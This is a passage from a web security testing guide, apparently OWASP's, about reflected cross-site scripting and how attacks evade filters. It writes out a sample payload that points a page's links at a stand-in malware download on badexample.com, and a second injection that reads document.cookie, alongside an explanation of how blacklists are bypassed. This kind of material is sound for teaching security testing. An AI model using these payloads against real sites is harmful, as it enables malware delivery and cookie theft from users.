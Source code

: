     http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a"); 
    AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script> 

This produces the following behavior:\
\
![](XSS_Example2.png "fig:XSS_Example2.png")\
\
This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site he controls.

### Bypass XSS filters

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.

Thus, the majority of XSS prevention must depend on the web application's sanitization of untrusted user input. There are several mechanisms available to developers for sanitization, such as returning an error, removing, encoding, or replacing invalid input. The means by which the application detects and corrects invalid input is another primary weakness in preventing XSS. A blacklist may not include all possible attack strings, a whitelist may be overly permissive, the sanitization could fail, or a type of input may be incorrectly trusted and remain unsanitized. All of these allow attackers to circumvent XSS filters.

The [XSS Filter Evasion Cheat Sheet](XSS_Filter_Evasion_Cheat_Sheet "wikilink") documents common filter evasion tests.

#### Example 3: Tag Attribute Value

\
Since these filters are based on a blacklist, they could not block every type of expressions. In fact, there are cases in which an XSS exploit can be carried out without the use of

<script>
tags and even without the use of characters such as " &lt; &gt; and / that are commonly filtered.

For example, the web application could use the user input value to fill an attribute, as shown in the following code:

    <input type="text" name="state" value="INPUT_FROM_USER">

Then an attacker could submit the following code:

    " onfocus="alert(document.cookie)

#### Example 4: Different syntax or encoding

\
In some cases it is possible that signature-based filters can be simply defeated by obfuscating the attack. Typically you can do this through the insertion of unexpected variations in the syntax or in the enconding. These variations are tolerated by browsers as valid HTML when the code is returned, and yet they could also be accepted by the filter.
